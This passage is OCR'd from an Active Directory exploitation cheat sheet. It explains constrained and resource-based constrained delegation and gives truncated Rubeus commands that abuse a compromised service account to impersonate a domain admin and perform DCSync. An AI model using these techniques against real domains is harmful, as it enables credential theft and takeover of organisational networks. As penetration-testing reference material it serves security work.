 service to impersonate other users in the domain with just their

https://casvancooten.com/posts/2020/11/windows-active-directory-exploitation-cheat-sheet-and-command-reference/

14/31

hash and is useful in situations where Kerberos isn’t used
between the user and frontend
DACL Property msDS-AllowedToDelegateTo This property
contains the SPNs it is allowed to use s4u2proxy on i e
requesting a forwardable TGS for that server based on an
existing TGS e g the one gained from using s4u2self
This
effectively defines the backend services that constrained
delegation is allowed for
NOTE These properties do NOT have to exist together! If
s4u2proxy is allowed without s4u2self user interaction is
required to get a valid TGS to the frontend service from a user
similar to unconstrained delegation

Exploitation
In this case we use Rubeus to automatically request a TGT and
then a TGS with the ldap SPN to allow us to DCSync using a
machine account

# Get a TGT using the compromised service account with d
.\Rubeus.exe asktgt /user:sa_with_delegation /domain:dom
# Use s4u2self and s4u2proxy to impersonate the DA user
.\Rubeus.exe s4u /ticket:doIE+jCCBP... /impersonateuser:
# Same as above, but access the LDAP service on the DC (
.\Rubeus.exe s4u /user:sa_with_delegation /impersonateus

Resource based constrained delegation
Resource Based Constrained Delegation RBCD configures the
backend server e g MSSQL to allow only selected frontend
services e g IIS to delegate on behalf of the user This makes it
easier for specific server administrators to configure delegation
without requiring domain admin privileges
DACL Property

msDS-AllowedToActOnBehalfOfOtherIdentity

https://casvancooten.com/posts/2020/11/windows-active-directory-exploitation-cheat-sheet-and-command-reference/

15/31

In this scenario

s4u2self and s4u2proxy are used as above to
